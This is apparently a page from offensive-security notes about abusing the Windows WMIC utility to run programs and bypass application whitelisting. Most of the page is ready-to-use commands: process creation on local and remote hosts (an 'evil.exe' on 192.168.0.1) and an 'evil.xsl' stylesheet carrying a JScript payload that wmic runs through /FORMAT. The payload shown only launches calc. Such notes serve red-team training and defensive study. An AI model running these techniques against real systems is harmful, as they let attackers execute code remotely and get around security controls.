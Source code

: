 # WMIC

## Theory

Windows Management Instrumentation (WMIC) is a Windows command-line utility that manages Windows components. People found that WMIC is also used to execute binaries for evading defensive measures. We can try to execute binary or XSL file that contain jscript payload with WMIC.

## Practice

{% tabs %}
{% tab title="Binary" %}
Execute local binary (calc.exe)

```bash
wmic.exe process call create calc
```

Execute binary on remote system (evil.exe)

```bash
wmic.exe /node:"192.168.0.1" process call create "evil.exe"
```
{% endtab %}

{% tab title="XSL" %}
Another application whitelist bypassing technique discovered by Casey @subTee, similar to squiblydoo

Define the XSL file containing the jscript payload:

```bash
#evil.xsl
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```

Invoke wmic command and specify /format pointing to the evil.xsl:

```bash
wmic os get /FORMAT:"evil.xsl"
```

Execute binary on remote system (evil.exe)

```bash
wmic.exe /node:"192.168.0.1" process call create "evil.exe"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/livingofftheland" %}

{% embed url="https://www.ired.team/offensive-security/code-execution/application-whitelisting-bypass-with-wmic-and-xsl" %}

